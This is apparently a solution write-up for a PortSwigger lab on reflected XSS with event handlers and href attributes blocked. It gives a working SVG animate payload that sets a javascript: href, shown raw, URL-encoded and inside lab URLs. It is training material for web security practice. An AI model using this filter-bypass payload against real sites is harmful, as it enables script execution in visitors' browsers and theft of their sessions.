 # Reflected XSS with event handlers and `href` attributes blocked

## This lab contains a [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability with some whitelisted tags, but all events and anchor `href` attributes are blocked..

## To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that injects a vector that, when clicked, calls the `alert` function.

### Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example:

## `<a href="">Click me</a>`

![screenshot](images/lab25.jpg)

`<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>`
url encoded
`%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E`

`https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E`

`https://0aa4001a03cd610e814b52b400050079.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E`

---

### step 1

search the below html code to solve the lab

```html
<svg>
  <a>
    <animate attributeName="href" values="javascript:alert(1)" />
    <text x="20" y="20">Click me</text>
  </a>
</svg>
```
